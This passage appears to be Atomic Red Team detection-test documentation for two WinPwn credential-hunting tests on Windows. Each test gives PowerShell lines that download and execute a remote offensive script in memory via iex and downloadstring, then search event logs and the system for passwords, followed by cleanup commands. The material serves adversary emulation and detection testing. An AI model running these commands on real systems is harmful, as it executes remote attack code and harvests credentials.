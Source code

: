 <br/>
<br/>

## Atomic Test #9 - WinPwn - powershellsensitive
Check Powershell event logs for credentials or other sensitive information via winpwn powershellsensitive function.

**Supported Platforms:** Windows


**auto_generated_guid:** 75f66e03-37d3-4704-9520-3210efbe33ce






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powershellsensitive -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #10 - WinPwn - passhunt
Search for Passwords on this system using passhunt via WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 00e3e3c7-6c3c-455e-bd4b-461c7f0e7797






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
passhunt -local $true -noninteractive
```

#### Cleanup Commands:
```powershell
rm -force .\passhunt.exe -ErrorAction Ignore
rm -force .\phunter* -ErrorAction Ignore
rm -force -recurse .\DomainRecon -ErrorAction Ignore
rm -force -recurse .\Exploitation -ErrorAction Ignore
rm -force -recurse .\LocalPrivEsc -ErrorAction Ignore
rm -force -recurse .\LocalRecon -ErrorAction Ignore
rm -force -recurse .\Vulnerabilities -ErrorAction Ignore
```
